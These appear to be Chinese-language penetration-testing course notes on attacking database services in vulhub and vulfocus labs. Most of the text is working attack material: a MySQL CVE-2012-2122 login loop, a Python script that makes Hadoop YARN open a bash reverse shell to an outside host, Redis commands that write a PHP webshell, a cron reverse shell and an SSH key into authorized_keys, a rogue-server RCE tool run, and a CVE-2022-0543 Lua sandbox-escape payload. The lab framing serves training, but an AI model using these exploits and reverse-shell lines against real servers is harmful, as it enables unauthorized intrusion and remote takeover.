 ![1649287825147-11d6799d-5cca-4ae0-8ac6-5a564be2e3fb.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913134010671-856274285.png)

```plain
#知识点：
1、服务攻防-数据库类型安全
2、Redis&Hadoop&Mysql安全
3、Mysql-CVE-2012-2122漏洞
4、Hadoop-配置不当未授权三重奏&RCE漏洞
3、Redis-配置不当未授权三重奏&RCE两漏洞

#章节内容：
常见服务应用的安全测试：
1、配置不当-未授权访问
2、安全机制-特定安全漏洞
3、安全机制-弱口令爆破攻击

#前置知识：
应用服务安全测试流程：（有才能测试）见图
1、判断服务开放情况-端口扫描&组合应用等
2、判断服务类型归属-数据库&文件传输&通讯等
3、判断服务利用方式-特定漏洞&未授权&弱口令等

开了服务，但是端口没有：
1.内网 2.修改端口 3.防火墙waf
```

- Mysql-未授权访问-CVE-2012-2122利用

```plain
启动环境：
cd vulhub-master/mysql/CVE-2012-2122
sudo docker-compose up -d

复现环境：vulhub
参考：https://vulhub.org/#/environments/mysql/CVE-2012-2122/

先判断端口开放情况：3306

在kali中执行：for i in `seq 1 1000`; do mysql -uroot -pwrong -h 192.168.233.128 -P3306 ; done
```

![1649289655839-d01c6d8f-6840-4e11-80e5-ebbf3dd1a4ea.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913134027993-1530338843.png)

```plain
mysql弱口令猜解账号密码需要满足一定的条件，因为mysql账号密码默认值允许本地登录（root）

mysql默认配置只允许本地登录root用户

远程的连接是拒绝的
mysql需要借助phpmyadmin猜解

phpmyadmin第三方的数据库管理应用，搭建在对方的服务器的
phpmyadmin登录mysql数据库，这个数据发送是由本地到本地的过程，所以可以进行测试
判断：inurl:phpmyadmin
```

- Hadoop-未授权访问-内置配合命令执行RCE

```plain
复现环境（在线靶场）：http://vulfocus.io/

Hadoop默认端口：50010

复现环境：https://vulhub.org/#/environments/hadoop/unauthorized-yarn/

启动环境：
cd /vulhub-master/hadoop/unauthorized-yarn
sudo docker-compose up -d

然后在网上找exp:https://www.cnblogs.com/cute-puli/p/14944637.html

访问网站：http://192.168.233.128:8088/cluster
import requests

target = 'http://192.168.233.128:8088/'
lhost = '192.168.233.131' # put your local host ip here, and listen at port 9999

url = target + 'ws/v1/cluster/apps/new-application'
resp = requests.post(url)
app_id = resp.json()['application-id']
url = target + 'ws/v1/cluster/apps'
data = {
    'application-id': app_id,
    'application-name': 'get-shell',
    'am-container-spec': {
        'commands': {
            'command': '/bin/bash -i >& /dev/tcp/%s/9999 0>&1' % lhost,
        },
    },
    'application-type': 'YARN',
}
requests.post(url, json=data)
执行exp：
G:\python38\python.exe hadoop.py
```

![1649291654137-2af95256-a535-4276-b319-58ec6563b15b.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913134028246-1704521958.png)

- Redis-未授权访问-Webshell&任务&密匙&RCE等

```plain
安装redis:

1、下载
wget http://download.redis.io/releases/redis-2.8.17.tar.gz

2、解压编译
tar xzvf redis-2.8.17.tar.gz  #解压安装包
cd redis-2.8.17  # 进入redis目录
make #编译

3、配置及启动
cd src/ #进入src目录 
cp redis-server /usr/bin/ 
cp redis-cli /usr/bin/      #将redis-server和redis-cli拷贝到/usr/bin目录下（这样启动redis-server和redis-cli就不用每次都进入安装目录了）
cd ..   # 返回上一级目录
cp redis.conf /etc/     #将redis.conf拷贝到/etc/目录下
redis-server /etc/redis.conf  # 使用/etc/目录下的redis.conf文件中的配置启动redis服务
redis未授权访问：为什么会导致未授权访问？
在/etc/redis.config

1.# bind 127.0.0.1(如果开启的话，只允许本地用户访问)
2.protected-mode no（需要开启）
3.没有设置密码

本地搭建了，但是好像不支持连接
用到环境http://vulfocus.io/#/dashboard

连接数据库：redis-cli -h 175.178.151.29
1、写Webshell 需得到Web路径
利用条件：Web目录权限可读写
config set dir /tmp            #设置WEB写入目录tmp取代web目录
config set dbfilename 1.php    #设置写入文件名
set test "<?php phpinfo();?>"  #设置写入文件代码
bgsave                         #保存执行
save                           #保存执行
注意：部分没目录权限读写权限
```

![1649294995884-531f5917-f8f5-451d-ba79-e3cf872e9e4d.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913134028027-1904131148.png)

```plain
可以在服务器上看到1.php的存在
```

![1649295031610-a25d8215-0d8f-4849-a96a-8d376ff245da.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913134028827-425827872.png)

```plain
2、写定时任务反弹shell
利用条件：
1.允许异地登录
2.安全模式protected-mode处于关闭状态

执行命令：
config set dir /var/spool/cron
set yy "\n\n\n* * * * * bash -i >& /dev/tcp/47.100.167.248/1111 0>&1\n\n\n"
config set dbfilename x
save
注意：
centos会忽略乱码去执行格式正确的任务计划 
而ubuntu并不会忽略这些乱码，所以导致命令执行失败

47.100.167.248执行：
nc -lvvp 1111

执行完后写入了文件
```

![1649295294162-bc1311fc-a6d5-43ad-a7b9-cdaf7c5f4853.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913134028186-1625040472.png)

```plain
3、写入Linux ssh-key公钥
利用条件：
1.允许异地登录
2.Redis服务使用ROOT账号启动
3.安全模式protected-mode处于关闭状态
4.允许使用密钥登录，即可远程写入一个公钥，直接登录远程服务器

在kali主机中执行：
ssh-keygen -t rsa
cd /root/.ssh/
(echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > key.txt
cat key.txt | redis-cli -h 175.178.151.29 -x set xxx

连接到175.178.151.29中执行：
redis-cli -h 175.178.151.29
config set dir /root/.ssh/
config set dbfilename authorized_keys
save

在kali中连接：
cd /root/.ssh/
ssh -i id_rsa root@175.178.151.29
4、RCE自动化利用脚本-vulfocus（需要版本4.x和5.x）
利用到工具：https://github.com/vulhub/redis-rogue-getshell
参考文章：https://vulhub.org/#/environments/redis/4-unacc/

上传到175.178.151.29服务器中，然后执行：
python redis-master.py -r 123.58.236.76 -p 56879 -L 47.100.167.248 -P 1111 -f RedisModulesSDK/exp.so -c "id"
```

![1649297884050-e2f409bf-6579-4acf-b6b8-934462513fd9.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913134028197-1945325634.png)

```plain
5.新漏洞-沙箱绕过RCE CVE-2022-0543-vulfocus
参考：https://vulhub.org/#/environments/redis/CVE-2022-0543/

Poc：执行id命令
连接到redis，执行；
redis-cli -h 123.58.236.76 -p 8736
eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("id", "r"); local res = f:read("*a"); f:close(); return res' 0
```

![1649298169261-e4697ba0-81a4-460d-8b14-41fec9106af1.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913134028231-1221339842.png)